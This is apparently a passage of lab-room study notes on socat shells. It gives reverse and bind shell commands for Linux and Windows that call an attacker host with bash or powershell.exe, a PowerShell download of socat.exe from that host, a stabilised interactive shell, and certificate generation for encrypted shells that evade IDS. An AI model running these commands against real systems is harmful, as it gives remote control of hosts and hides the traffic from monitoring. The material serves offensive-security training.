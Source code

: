 For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

#### Socat 
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

_Reverse Shells_
the listen command 
`socat TCP-L:<port>`
the input command 
*windows* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
*linux* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

_Bind Shells_

On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`  
On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

`socat TCP:<TARGET-IP>:<TARGET-PORT> -`
 
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`  
The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
    
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

Socat Encrypted Shells
One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  
